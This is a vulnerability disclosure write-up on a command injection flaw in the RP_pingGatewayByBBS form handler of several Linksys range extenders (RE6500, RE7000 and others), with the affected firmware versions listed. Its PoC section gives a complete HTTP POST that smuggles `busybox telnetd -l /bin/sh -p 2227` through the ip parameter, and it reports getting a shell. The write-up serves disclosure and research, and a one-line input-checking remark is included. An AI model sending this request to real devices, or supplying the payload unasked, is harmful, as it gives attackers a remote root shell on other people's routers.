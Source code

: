 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_pingGatewayByBBS` function, `ip、nm、gw` is directly passed by the attacker, so we can control the `ip、nm、gw` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ip` as **`busybox telnetd -l /bin/sh -p 2227`** , and the router will excute it,such as:

```http
POST /goform/RP_pingGatewayByBBS HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=WU2wxPWkJ2bVXSRyNWO0cci74EJ5jgkF
Upgrade-Insecure-Requests: 1

mode=static&ip=`busybox telnetd -l /bin/sh -p 2227`&nm=&gw=&ch=0&ssidhex=&ch=&retry=0
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

